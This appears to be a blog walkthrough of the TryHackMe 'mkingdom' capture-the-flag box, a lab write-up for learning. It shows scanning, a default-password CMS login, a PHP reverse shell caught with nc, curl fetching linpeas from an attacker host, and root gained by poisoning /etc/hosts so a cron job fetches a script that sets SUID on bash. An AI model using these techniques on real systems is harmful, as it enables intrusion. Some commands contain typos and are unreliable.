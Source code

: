 ```yaml
---
layout: post
title:  "TryHackMe: mkingdom"
description: Beginner-friendly box inspired by a certain mustache man.
date:   2024-07-08 11:43:59 +0100
categories: jekyll update
---
```


# mkingdom :
```sh
export IP= M-ip
```
# Enumeration:

I found the Port 85 referring to HTTP instead of 80.

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-20 18:42 EDT
Scanning 10.10.198.213 [4 ports]
Nmap scan report for 10.10.198.213
Host is up, received echo-reply ttl 63 (0.092s latency).
Scanned at 2024-09-20 18:42:40 EDT for 13s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
85/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

NSE: Script Post-scanning.
Completed NSE at 18:42, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds
           Raw packets sent: 1037 (45.604KB) | Rcvd: 1008 (40.312KB)
```
 
# Directory bruteforcing:

I found his /app directory that contain the web app with the concrete cms 8.5.2, this version has a CVE-2020-11476.

```sh
gobuster dir --url http://10.10.198.213:85/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```sh
/app                  (Status: 301) [Size: 314] [--> http://10.10.198.213:85/app/]
```

![Screenshot_1](https://github.com/user-attachments/assets/4f368621-4827-4a50-977b-623e5a3b9cf6)

I checked the Blog to see if i can find some users .

![Screenshot_2](https://github.com/user-attachments/assets/2604c4b7-bae8-429e-bc76-78ef13368784)

I found this user 

![Screenshot_3](https://github.com/user-attachments/assets/3bd15567-9cb4-4f04-8508-c8d179095415)

I tried some default passwords on this user 'admin' the password is 'password'

![Screenshot_9](https://github.com/user-attachments/assets/8bc6a101-ba04-4266-802f-d4ee6a561831)

as i mentioned before the concrete cms 8.5.2 has a vuln thats make me add an extension to allow php file type to be downloaded to the machine.

![Screenshot_4](https://github.com/user-attachments/assets/97b5b439-0527-4a2c-84a9-bc248cb2f7ff)
![Screenshot_5](https://github.com/user-attachments/assets/0e70e322-77f6-4f0b-a804-66bfa7bf1c61)

Here i uploaded a php reverse shell to the machine and i got the ip to run it 

![Screenshot_6](https://github.com/user-attachments/assets/fa29c9fc-e852-459c-bfe7-f8a408e90060)
![Screenshot_7](https://github.com/user-attachments/assets/17ba45cc-0a26-431f-9ddf-8b394456760c)

# Initial access :
```sh
 nc -lvnp 9999   
```                       
```sh
listening on [any] 9999 ...
connect to [10.9.0.17] from (UNKNOWN) [10.10.198.213] 55916
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:05:35 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```
I used linpeas to enumerate the machine 

```sh
Attacker Machine
python3 -m http.server 80
Victim Machine
curl http://attackerIP/linpeas.sh -o linpeas.sh 
./linpeas.sh
```
I found password of the user toad in config file of the application concrete cms 8.5.2
 
![Screenshot_11](https://github.com/user-attachments/assets/0720af85-e3b0-4c3b-9f2e-d7058ef7685d)

After a lot of enumeration i found that the password of user mario is in the env  

![Screenshot_12](https://github.com/user-attachments/assets/265fc5aa-47c5-4814-ab52-d1be3675cd12)

```sh
echo 'aWthVGVOVEFOdEVTCg==' |base64 -d                         
ikaTeNTANtES   => mario password
```
I used pspy to snoop on processes without need for root permissions, by doing this i got this running crons.

![Screenshot_13](https://github.com/user-attachments/assets/45810ebc-b52a-485e-ae94-cfbf8bb7b56e)

/bin/cat has SUID permissions, meaning it can be executed with the privileges of the file owner (likely root).
/etc/hosts is owned by the user mario
![Screenshot_14](https://github.com/user-attachments/assets/d8fc746c-8ac9-4db3-b6aa-8ccd89de4b98)
![Screenshot_15](https://github.com/user-attachments/assets/296423a4-e5f0-4bfa-8996-4d0855d6766b)

I replaced the localhost ip with our vpn ip to use it further.

```sh
awk '{gsub("127.0.1.1\tmkingdom.thm", "AttackerIP\t\tmkingdom.thm"); print}' /etc/hosts > /tmp/replace_hosts
```
then i used the suid /bin/cat to write the content of /tmp/replace_hosts to /etc/hosts  it should look like this:

```sh
mario@mkingdom:~$ cat /tmp/replace_hosts  > /etc/hosts
mario@mkingdom:~$ cat /etc/hosts
127.0.0.1	localhost
AttackerIP		mkingdom.thm
127.0.0.1	backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnod
```

Since counter.sh is executed automatically via cron, we could manipulate it to run commands of our choice.
With write access to /etc/hosts, we can modify entries to redirect network requests or disrupt normal hostname resolution.
The /etc/cat file, with SUID permissions, allows us to execute it as the file owner (likely root), which can be exploited to read or manipulate sensitive files.

1. Create a counterfeit directory on the attacker machine:
We will replicate the directory structure where counter.sh is located on the victim machine inside the /tmp directory on our attacker machine. This will allow us to host our counterfeit version of counter.sh.
```sh
mkdir -p /tmp/app/castle/application
vim /tmp/app/castle/application/counter.sh
```
```sh
#! /usr/bin/env bash

chmod 4755 /bin/bash
```

2. Host a fake script using Python's HTTP server:
Using Python’s http.server, we can set up a simple web server on the same port that the victim machine is likely to connect to. This will trick the victim into downloading our malicious script instead of the original one.

```sh
sudo python3 -m http.server 85 --direcotry /tmp
```

3. Replace the real counter.sh on the victim machine:
By getting the cron job to download our counterfeit script from our attack machine, we can replace the original counter.sh with our own, gaining control over what commands it executes when the cron job runs.

![Screenshot_16](https://github.com/user-attachments/assets/c2d228f2-4497-4e77-b84e-a5839a271836)

Gaining root access 

![Screenshot_17](https://github.com/user-attachments/assets/b7c08f9e-2f85-4f16-b9a1-ac1bf4ba3a3c)
